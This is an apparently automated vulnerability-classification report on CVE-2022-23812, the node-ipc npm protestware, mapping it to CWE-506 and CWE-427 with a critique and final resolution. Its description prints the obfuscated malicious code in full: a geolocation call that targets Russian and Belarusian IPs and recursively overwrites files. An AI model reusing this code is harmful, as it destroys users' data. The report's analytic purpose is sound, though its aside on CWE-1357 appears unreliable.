

# Analysis Report for CVE-2022-23812

# Vulnerability Analysis Report: CVE-2022-23812

## Description

This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note** from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code **Note** Dont run it! js import u from path import a from fs import o from https setTimeout(function () { const t = Math.round(Math.random() * 4) if (t > 1) { return } const n = Buffer.from(aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=, base64) // https//api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString(utf8), function (t) { t.on(data, function (t) { const n = Buffer.from(Li8=, base64) const o = Buffer.from(Li4v, base64) const r = Buffer.from(Li4vLi4v, base64) const f = Buffer.from(Lw==, base64) const c = Buffer.from(Y291bnRyeV9uYW1l, base64) const e = Buffer.from(cnVzc2lh, base64) const i = Buffer.from(YmVsYXJ1cw==, base64) try { const s = JSON.parse(t.toString(utf8)) const u = s[c.toString(utf8)].toLowerCase() const a = u.includes(e.toString(utf8)) || u.includes(i.toString(utf8)) // checks if country is Russia or Belarus if (a) { h(n.toString(utf8)) h(o.toString(utf8)) h(r.toString(utf8)) h(f.toString(utf8)) } } catch (t) {} }) }) }, Math.ceil(Math.random() * 1e3)) async function h(n = , o = ) { if (!a.existsSync(n)) { return } let r = [] try { r = a.readdirSync(n) } catch (t) {} const f = [] const c = Buffer.from(4p2k77iP, base64) for (var e = 0 e 0 ? f.push(...s) null } else if (i.indexOf(o) >= 0) { try { a.writeFile(i, c.toString(utf8), function () {}) // overwrites file with ?? } catch (t) {} } } return f } const ssl = true export { ssl as default, ssl }

## Vulnerability Description Key Phrases

**Rootcause:** Malicious code within the package.
**Weakness:** Unintentional inclusion of malicious code and supply chain vulnerability.
**Impact:** File overwrite with a heart emoji for users in Russia or Belarus and potential for other malicious behavior.
**Vector:** Package installation from npm repository.
**Attacker:** Unknown, but the code targets specific countries.
**Product:** node-ipc
**Version:** before 10.1.3
**Component:** npm package

## Analysis (with Relationship Data)

# Summary
| CWE ID | CWE Name | Confidence | CWE Abstraction Level | CWE Vulnerability Mapping Label | CWE-Vulnerability Mapping Notes |
|---|---|---|---|---|---|
| CWE-506 | Malicious Code | 0.95 | Class | Primary | Allowed-with-Review |
| CWE-427 | Uncontrolled Search Path Element | 0.6 | Base | Secondary | Allowed |

## Evidence and Confidence

*   **Confidence Score:** 0.8
*   **Evidence Strength:** HIGH

- **Analysis and Justification:**
  - *Explanation:* The primary weakness is the presence of **malicious code** within the node-ipc package. This directly aligns with CWE-506 (Malicious Code), which is a Class-level CWE describing code that appears to be malicious in nature. The vulnerability description explicitly states that the package contains malicious code that overwrites files. The CVE Reference Links Content Summary reinforces this by highlighting "Malicious Code Injection" as a key weakness. While CWE-506 is a Class-level CWE, it is the most accurate high-level representation of the injected **malicious code**. The MITRE mapping guidance states it is ALLOWED-WITH-REVIEW because a more specific child may exist, however, in this case, it is appropriate since the exact nature of the **malicious code** is file overwriting which is more of an impact than a root cause.
  - *Relationship Analysis:* CWE-506 does not have direct relationships to other CWEs listed. However, it's important to consider that **malicious code** can lead to various other weaknesses or impacts, but the core issue here is the existence of that **malicious code** itself.

- **Analysis and Justification:**
  - *Explanation:* A secondary weakness could be CWE-427 (Uncontrolled Search Path Element). The **malicious code** is executed upon package installation from the npm repository, which can be viewed as a search path. If the user's machine is set to pull packages without validation, it can be considered a vulnerability.
  - *Relationship Analysis:* CWE-427 doesn't directly relate to CWE-506, but it represents how the weakness was delivered to the user and machine.

- **Confidence Score:**
  - *CWE-506 Confidence:* 0.95 (High confidence due to explicit mention of malicious code)
  - *CWE-427 Confidence:* 0.6 (Medium confidence, since the path is more of an ecosystem than a direct path.)

---

## Criticism of Analysis

Okay, here's a review of the provided CWE analysis, considering the full CWE specifications for each weakness.

**Overall Assessment:**

The analysis correctly identifies CWE-506 (Malicious Code) as the primary weakness. The justification is sound, and the confidence level is appropriate. The inclusion of CWE-427 (Uncontrolled Search Path Element) as a secondary weakness is more debatable. While there's a tenuous connection to the package installation process, it's not the most direct or accurate representation of the vulnerability's root cause. Let's break down each aspect in detail.

**Detailed Review:**

**1. CWE-506: Malicious Code (Primary)**

*   **CWE Specification Alignment:**
    *   The analysis is well-aligned with the CWE-506 description: "The product contains code that appears to be malicious in nature."  The vulnerability description explicitly states the package includes malicious code.
    *   The *Extended Description* of CWE-506, which mentions Trojan Horses, Trapdoors, and Logic Bombs, provides further context. While the specific malicious action is file overwriting, the core problem *is* the presence of intentionally malicious code.
    *   The *Mapping Guidance* for CWE-506 is "Allowed-with-Review" because it is a class-level CWE. The analysis notes that a more specific child might exist. However, given that the malicious intent and general nature of the code are the most significant aspects, CWE-506 is a suitable high-level representation. It would be difficult to classify it as solely a Trojan Horse, Logic Bomb, etc., as its behavior could be argued to fit multiple categories.
*   **Confidence:** The assigned confidence score of 0.95 is justified. The evidence is strong and direct.
*   **Mitigations:** The suggested mitigation of "Remove the malicious code..." is the obvious and correct response.

**2. CWE-427: Uncontrolled Search Path Element (Secondary)**

*   **CWE Specification Alignment:**
    *   The analysis argues that the npm repository acts as a "search path," and because the user's machine pulls packages without validation, it's an "uncontrolled" element. This is where the analysis becomes weaker.
    *   CWE-427's *Description* focuses on the *product* using a fixed or controlled search path, where *locations in that path* are under the control of unintended actors. Here, the npm repository is external to the *product* using it (i.e the end user's application). The end user's application doesn't control the npm repository.  The vulnerability isn't so much about the search path itself, but rather the *content* found at that path.
    *   The *Extended Description* of CWE-427 includes the scenario of "software package management frameworks (e.g., npm, RubyGems, or PyPi)," which seems supportive at first glance. However, the key aspect is that the framework (e.g., npm client) searches a *public* repository before a *private* one, potentially leading to dependency confusion. This isn't the primary attack vector in this case. While dependency confusion *could* be a factor, the core issue is the direct injection of malicious code into a publicly available package.
    *   The examples for CWE-427 also suggest a different attack vector than the one used here. They are focused on hijacking command execution via manipulating the PATH environment variable, or DLL preloading.
*   **Confidence:** The assigned confidence score of 0.6 is reasonable given the weak relationship.
*   **Mitigations:** The general mitigations of CWE-427 don't directly address the root cause of this vulnerability. Hardcoding search paths, specifying fully-qualified pathnames, and restricting environment settings don't prevent a compromised package from being installed from a public repository.

**Alternative CWE Considerations:**

While CWE-506 is the most appropriate high-level classification, a more precise base-level CWE to consider is **CWE-1357: Insertion of Publicly Available Sensitive Information**. This weakness describes the scenario where sensitive information is available to a wide audience due to a flaw in the software or system.

However, this isn't exactly what occurred in this scenario, the malicious code was inserted by a malicious third party, it wasn't leaked by the system.

**Recommendations:**

1.  **Maintain CWE-506 as the primary weakness:** Its broad nature accurately captures the core problem: the presence of malicious code.
2.  **Reconsider CWE-427 as a secondary weakness:** While tangentially related, it doesn't accurately represent the root cause or the attack vector. The connection is stretched and the mitigations aren't relevant.
3.  **Instead of CWE-427, consider CWE-1357:** This captures the fact that the malicious code became publicly available (on the npm registry), leading to widespread exposure. But again, this isn't quite accurate as the malicious code wasn't leaked. It was purposely placed there.

In summary, the primary CWE assignment of CWE-506 is correct. However, the secondary assignment of CWE-427 is questionable and should be reconsidered. No single CWE perfectly represents the nuances of a supply chain attack involving malicious code injection, but CWE-506 and some acknowledgement of the supply chain element is the best path forward.

## Final Resolution

# Summary
| CWE ID | CWE Name | Confidence | CWE Abstraction Level | CWE Vulnerability Mapping Label | CWE-Vulnerability Mapping Notes |
|---|---|---|---|---|---|
| CWE-506 | Malicious Code | 0.95 | Class | Primary CWE | Allowed-with-Review |
| CWE-427 | Uncontrolled Search Path Element | 0.3 | Base | Secondary Candidate | Allowed |

## Evidence and Confidence

*   **Confidence Score:** 0.8
*   **Evidence Strength:** MEDIUM

## Relationship Analysis
The primary relationship considered was the parent-child relationship and the abstraction level. CWE-506 is a class, and while more specific children might exist, none perfectly capture the intent of the malicious code injection. CWE-427 was considered due to the package installation process, but its connection is weak as the core issue is the malicious content, not the search path itself. I am reducing the confidence score for CWE-427.

## Vulnerability Chain
The vulnerability chain starts with the injection of **malicious code** (CWE-506) into the node-ipc package. This package is then made available on the npm registry. When users install the compromised package, the **malicious code** executes, overwriting files on systems located in Russia or Belarus with a heart emoji. The **root cause** is the presence of **malicious code**, and the impact is file overwriting and potential system disruption for targeted users. The potential for an Uncontrolled Search Path Element (CWE-427) contributes to the likelihood of the **malicious code** being executed, but it's not a direct link in the main chain.

## Summary of Analysis
The initial analysis and the criticism both agree that CWE-506 is the most appropriate primary CWE. The vulnerability description explicitly states "This package contains malicious code". This is direct evidence supporting CWE-506.

The criticism correctly points out that the justification for including CWE-427 as a secondary weakness is weaker. The connection between the npm repository as a "search path" and the vulnerability is tenuous. While package managers are mentioned in the extended description of CWE-427, the core issue is the malicious content itself.

Based on the criticism, I am reducing the confidence score for CWE-427 to 0.3. While it might contribute to the attack, it is not a direct or accurate representation of the **root cause**. The primary driver is the presence of the **malicious code**.

CWE-506 is at the optimal level of specificity, given the high-level nature of the vulnerability. While a more specific child CWE might exist, none perfectly capture the overall intent and impact of the **malicious code** injection.

*Report generated on 2025-03-17 03:11:31*
